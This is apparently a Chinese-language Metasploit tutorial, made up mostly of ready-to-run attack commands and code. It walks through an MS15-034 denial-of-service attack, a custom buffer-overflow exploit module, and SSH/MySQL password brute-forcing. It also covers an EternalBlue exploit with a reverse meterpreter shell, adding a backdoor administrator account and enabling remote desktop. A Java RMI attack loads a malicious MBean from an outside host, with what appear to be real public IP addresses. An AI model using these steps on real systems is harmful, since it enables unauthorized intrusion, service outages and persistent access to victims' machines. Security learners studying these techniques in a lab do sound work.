

# MSF从入门到放弃

https://www.anquanke.com/post/id/164525
https://www.4hou.com/tools/14185.html
https://uknowsec.cn/posts/uncategorized/%E5%90%8E%E6%B8%97%E9%80%8F%E4%B9%8Bmeterpreter%E4%BD%BF%E7%94%A8%E6%94%BB%E7%95%A5.html
https://www.jianshu.com/p/6535203977c4


## 什么是MSF

Metasploit是一个免费的、可下载的框架，

通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。

它本身附带数百个已知软件漏洞的专业级漏洞攻击工具。

Metasploit的设计初衷是打造成一个攻击工具开发平台，

然而在目前情况下，

安全专家以及业余安全爱好者更多地将其当作一种点几下鼠标就可以利用其中附带的攻击工具进行成功攻击的环境。

## kali内网映射+msf利用漏洞

注意：`此次实验可以不用做内网映射直接进行攻击，我只是借着这个机会说一下内网映射。。。`

### 场景分析 

> `正向连接使用场景`：我们的攻击机在`内网环境`，被攻击机是`外网环境`，由于被攻击机无法主动连接到我们的主机，所以就`必须我们主动连接被攻击机`了。但是这里经常遇到的问题是，被攻击机上开了防火墙，只允许访问指定的端口，`比如被攻击机只对外开放了80端口。`那么，我们就只能设置正向连接80端口了，这里很有可能失败，因为80端口上的流量太多了!
 
> `反向连接使用场景`：`我们的主机和被攻击机都是在外网或者都是在内网`，这样被攻击机就能主动连接到我们的主机了。如果是这样的情况，`建议使用反向连接`，因为反向连接的话，`即使被攻击机开了防火墙也没事`，`防火墙只是阻止进入被攻击机的流量，而不会阻止被攻击机主动向外连接的流量。`
 
> `反向连接80和443端口使用场景`：被攻击机能主动连接到我们的主机，还有就是被攻击机的防火墙设置的特别严格，就连被攻击机访问外部网络的流量也进行了`严格的限制`，`只允许被攻击机的80端口或443端口与外部通信`


好，大家都知道，虚拟机处于内网当中，那我们利用msf去攻击对方服务器就应该先把内网映射出来(接受反弹shell的时候)，把kali的ip映射到外网中，才可以去攻打外网的ip。

这里我介绍一款工具。

`Ngrok Linux`端口转发工具：https://www.ngrok.cc

先去网站注册一个用户`，然后申请免费的隧道`。

选择TCP协议，自定义远程端口，本地IP地址就是kali的IP地址，端口自定义，但不要冲突。

申请好后，记住你的隧道id，用于连接。

把这款工具下载到kali，然后进到该目录，输入如下命令，即可。

启动程序：
```
./sunny clientid 隧道id
```


> 如下图所示，则说明端口映射成功。


> Ok，咱们启动msf利用此漏洞攻击目标服务器。

###cmd下msfconsole进入msf，输入
```
search MS15-034 (查询此漏洞的利用模块)
```
### 好，我们选用第二个辅助攻击模块。

> Use+模块名称
```
use auxiliary/scanner/http/ms15_034_http_sys_memory_dump   //调用模块
```
```
set RHOST ip  //设置攻击的目标ip
```
```
exploit  //执行漏洞攻击
```

> <h2>PS:如果成功，目标就会蓝屏</h2>
代码如下：
```
use auxiliary/dos/http/ms15_034_ulonglongadd  //设置辅助攻击模块

set rhosts ip  //设置目标机ip

set threads 10  //设置线程数

Exploit  //攻击
```


## 常用代码说明

### Payload

#### Stager中几种常见的payload


```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```


> `PoC `是` Proof of Concept` (概念验证) 通常是内含无害的漏洞代码，比如弹出一个计算器什么的

> `Exp`  是 `Exploit` (漏洞利用) 通常是内含恶意的漏洞代码
可以理解为提权攻击。

> `exp在msf中来讲`，其实本身并没有恶意行为，只是它会调用恶意payloads来进行测试，

> search的功能可以让我们随时在msf的海量脚本中拿到我们想要的。

```
show optinos                 \\显示选项
```


当你面对一个未知脚本，即使我们看到了所有配置项，

我们也不知道哪些是需要我们去配置的。

我们也不知道应该去使用什么命令，

那就用到了我们刚刚提高到show继续~

其中
```
show missing           \\是显示缺失的必填项。
```


## 赋值

```
set lhost IP        \\set为赋值命令
```

## 模块命令

```
advanced   显示一个或多个模块的高级选项
```
```
back   从当前上下文返回
```
```
edit   使用首选编辑器编辑当前模块
```
```
info   显示有关一个或多个模块的信息
```
```
loadpath   路径从路径搜索并加载模块
```
```
options   显示全局选项或一个或多个模块
```
```
popm   将最新的模块从堆栈中弹出并使其处于活动状态
```
```
previous   将之前加载的模块设置为当前模块
```
```
pushm   将活动或模块列表推入模块堆栈
```
```
reload_all   从所有定义的模块路径重新加载所有模块
```
```
search   搜索模块名称和描述
```
15034
```
show   显示给定类型的模块或所有模块
```
```
use   按名称选择模块
```
## 工作命令

============
```
handler   作为作业启动负载处理程序
```
```
jobs   显示和管理作业
```
```
kill   杀死一个工作
```
```
rename_job   重命名作业
```

## 链接数据库

=========================
```
db_connect   连接到现有的数据库
```
```
db_disconnect   断开与当前数据库实例的连接
```
```
db_export   导出包含数据库内容的文件
```
```
db_import   导入扫描结果文件（文件类型将被自动检测）
```
```
db_nmap   执行nmap并自动记录输出
```
```
db_rebuild_cache   重建数据库存储的模块高速缓存
```
```
db_status   显示当前的数据库状态
```
```
hosts   列出数据库中的所有主机
```
101.142
```
loot   列出数据库中的所有战利品
```
```
notes   列出数据库中的所有笔记
```
```
services   列出数据库中的所有服务
```
```
vulns   列出数据库中的所有漏洞
```
```
workspace   在数据库工作区之间切换
```
## 凭证后端命令

============================
```
creds   列出数据库中的所有凭据

```
```
sessions                    \\查看监听端口
```
resource 命令便可以直接执行我们预定好的操作
```
resource                    \\执行预定操作
```

## 给kali的Metasploit下添加一个新的exploit

`/usr/share/metasploit-framework/modules/exploits`目录下新建一个自定义文件夹，例如JOJO


> 仿造`exploits`目录下的其他`exp(rb文件)`编写自己的exp.rb脚本(这边用0day安全:软件漏洞分析技术里的一个栗子)
```
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# ls
0day1.rb
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# cat 0day1.rb
##
```
```rb
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Ftp
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'security test',
      'Description'    => %q{
          This module exploits a buffer overflow.
      },
      'Author'         => 'fwd',
      'License'        => MSF_LICENSE,
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 300,
          'BadChars' => "\x00",
        },
      'Platform' 		  => 'win',
      'Targets'        =>
        [
          [ 'Windows XP Pro SP2 English',           { 'Ret' => 0x7c809f83 } ],
        ]))
  end
 
  def exploit
    connect
    attack_buf =  'a'*200
    attack_buf += [target.ret].pack('V')
    attack_buf += payload.encoded
    sock.put(attack_buf)
    handler
    disconnect
  end
end
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest#
```
### 然后启动msf
输入你的路径然后摁`tab`就行了(不能tab就是有猫病)
```
use exploit/jojo/xxxxx
```


输入
```
reload_all              \\重新加载所有模块
```

然后启动模块开始攻击
```
use exploit/jojo/cve_2019_0708_bluekeep_dos 

info

set rhosts 192.168.100.86(目标IP)

set verbose true 

run
```


# 实战

## 信息收集

发现目标网段的存活主机:

我们可以利用auxiliary这个模块来获取目标网端的信息，包括端口开放情况、主机存活情况。
```
auxiliary/scanner/discovery/arp_sweep

auxiliary/scancer/smb/smb_version 存活的445主机

auxiliary/scanner/portscan/syn  端口扫描

auxiliary/scanner/telnet/telnet_version telent服务扫描

auxiliary/scanner/rdp/rdp_scanner 远程桌面服务扫描

auxiliary/scanner/ssh/ssh_version ssh主机扫描

```



## 使用格式为

```
auxiliary/scanner/discovery/arp_sweep
 \\设置脚本
```
```
set rhosts 192.168.201.1/24(目标IP) //设置目标主机地址
```
```
Set threads 30   //设置扫描线程
```
```
Run //执行扫描命令
```

## 内置密码爆破

内置密码表的地址：`/usr/share/wordlists/metasploit/`


一般爆破的话我们可以对`ssh、mysql、sql、Oracle、vnc、telnet`等常用的端口

```
1）auxiliary/scanner/mysql/mysql_login
```
```
2）auxiliary/scanner/mssql/mssql_login
```
```
3）auxiliary/scanner/ssh/ssh_login
```

## 关域漏洞探测

接下来我们通过前期的信息收集，`可以得到目标主机中有三台主机开启了445端口`，我们可以进一步探测是不是存在`永恒之蓝漏洞`。我们可以用以下命令来探测一下：

### 调用代码:

```
use auxiliary/scanner/smb/smb_ms17_010  //使用永恒之蓝探测模块
```
```
show options         \\查看这个模块需要配置的信息
```
```
set rhosts 192.168.205.1/24 //设置扫描目标主机IP地址
```
```
set threads 30 //设置扫描线程
```
```
Run //开启扫描
```

## 漏洞利用(谨慎使用)

通过漏洞探测阶段我们发现`192.168.205.150(假设）`这台目标主机存在永恒之蓝漏洞，那我们可以使用MSF中的
攻击模块进行漏洞攻击，看看能不能获取到目标主机的webshell，
## 注意：

所需攻击条件：

1.防火墙必须允许SMB流量出入

2.目标必须使用SMBv1协议

3.目标必须缺少MS17-010补丁

4.目标必须允许匿名IPC $和管道名


这样的话，`我们就可以通过溢出漏洞来搞内网的横向扫描。`执行以下命令：


### 调用攻击

```
use exploit/windows/smb/ms17_010_eternalblue //使用永恒之蓝攻击模块
```
```
set payload windows/meterpreter/reverse_tcp  //设置一个Payload，使攻击机接受来自目标主机的session
```
```
set rhosts 192.168.205.150  //设置目标主机地址
```
```
set lhost 192.168.205.148   //设置接受payload的地址，我们这里设置MSF的地址
```
```
set LPORT 5555              // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
```
run                     //执行攻击命令
或
exploit                 //执行提权攻击
```
## ④通过Shell对靶机Win7进行控制

创建用户名密码
``` 
blue/blue  net user blue blue /add
``` 
将用户blue添加入管理组  
```
net localgroup administrators blue /add
``` 
开启远程桌面功能
```  
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
``` 
Kali远程桌面连接Win7  
```
rdesktop 172.16.70.199:3389

```


## 关于msf中help的功能 有三种方式

```
分别是 “?” 、“help”、“-h”。 

比如：

？ kill  /  kill -h  /help  kill            \\你需要手动打全命令。别老想着tab了

```
msf平台还具备一个极其方便的功能，

支持外部命令执行，也就是系统命令。

你不需要为了查看某项系统信息去单独打开一个窗口了。

## 补充实战

### 关于metaspolit中进行JAVA反序列化渗透RMI的原理分析

在 Github 上有一个关于本漏洞的` exp`，叫做 mjet，我们可以利用它来配合 metasploit 进行攻击。

1. 下载mjet模块
```
git clone https://github.com/mogwaisec/mjet.git
```
2. 拷贝文件到响应目录下：
```
cp -r mjet/metasploit/MBean metasploit-framework-master/data/java/metaspolit
cp mjet/metasploit/java_mlet_server.rb metasploit-framework-master/modules/exploits/multi/misc/
cd mjet/src/java/metasploit/MetasploitBean/src/metasploit
javac Payload.java
cp Payload.class ~/Desktop/metasploit-framework-master/data/java/metasploit/
```
3)在另外一个java虚拟机中开启一个终端

```
java -jar mjet.jar -p 1099 -u http://192.168.100.101:8080/o5jSTI5rEWJw6Is/ -t 192.168.100.102
```
```
tips
查看配置选项show options
需要修改那个修改那个就可以了
set uripath /asdfgh
set SRVPORT 1234
等等
```
> 接着输入 run 跑起来。这时候会显示一个 listen 的 URL，这里的 URL 就是我们的 Evil MBean 的地址。复制这个地址作为 mjet 的参数，运行：
```
java -jar mjet.jar -p 1099 -u http://103.238.227.183:8080/o5jSTI5rEWJw6Is/ -t 42.96.150.237/
```

接着 msf 就拿到 session 了。

## 接受反弹的shell

nc 监听本地的 23333 端口，然后运行：
```
java -jar mjet.jar -p 1099 -u http://static.ricter.me/jmx/ -t 42.96.150.237
 ```

`http://static.ricter.me/jmx/ `是存放的 evil MBean 和 jar 包的地址。


